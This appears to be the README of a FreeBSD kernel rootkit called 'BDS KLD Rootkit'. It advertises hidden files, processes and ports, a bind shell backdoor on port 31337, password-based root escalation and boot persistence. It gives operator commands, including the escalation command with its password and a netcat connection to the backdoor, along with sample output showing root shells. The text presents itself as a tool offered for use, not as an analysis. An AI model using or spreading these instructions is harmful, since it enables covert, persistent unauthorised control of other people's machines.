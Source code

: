 <h2>BDS KLD ROOTKIT</h2>
<p>
Freebsd KLD Rootkit for FreeBSD 13. Hide files, hide process, hide port, bind shell backdoor
<br>
Developed by : Antonius
<br>
Website : www.bluedragonsec.com
<br>
Github : https://github.com/bluedragonsecurity
<br>
Twitter :  https://twitter.com/bluedragonsec
</p>

<p>
<h3>Features</h3>
<ul>
  <li>Bind shell on port 31337</li>
  <li>Bind shell process hiding</li>
  <li>Hide file with prefix bds</li>
  <li>Hide bind shell port</li>
  <li>Privilege escalation with password</li>
</ul>
</p>

<p>
<h3>Installation</h3>
<br>
You need root privilege, make and gcc to install this rootkit. To install just type :
<pre>
./install.sh
</pre>
</p>

<h3>Using the Rootkit</h3>
<p>
<b>Privilege Escalation</b>
<br>
  Once the rootkit installed on the system, in case you lost root privilege, you can regain root privilege by typing :
  <pre>
  /sbin/bds_shell bluedragonsec
  </pre>
Typing above command will make you regain root privilege : 
<br>
<pre>
robotsoft@robotsoft ~> id
uid=1002(robotsoft) gid=1002(robotsoft) groups=1002(robotsoft),0(wheel),5(operator)
robotsoft@robotsoft ~> /sbin/bds_shell bluedragonsec
root@robotsoft:~ # id
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)
root@robotsoft:~ # 
</pre>
</p>

<p>
<b>Connecting to Bind Shell Backdoor</b>
<br>  
Connecting to bind shell on a freebsd server which you have installed this rootkit can be accomplished simply by using netcat :
<pre>
nc (server ip) 31337
</pre>
For example, freebsd server with rootkit installed is at 192.168.0.141 : 
<pre>
root@robotsoft ~# nc 192.168.0.141 31337
FreeBSD robotsoft 13.2-STABLE FreeBSD 13.2-STABLE GENERIC amd64
sh: turning off NDELAY mode
id
uid=0(root) gid=0(wheel) groups=0(wheel)
pwd
/
</pre>
</p>

<p>
<b>Hiding Files and Directories
</b>
<br>
  To hide file and directory just give prefix bds to file name and directory name
</p>

<p>
<b>Process Hiding</b>
This rootkit hides bind shell process from ps.
</p>

<p>
<b>Port Hiding</b>
<br>
This rootkit hides bind shell port from netstat.
</p>

<p>
<b>Persistence</b>
<br>
The rootkit is activated every time the system starts up. After the reboot, wait for 1 minute, the rootkit will be loaded into kernel.
</p>
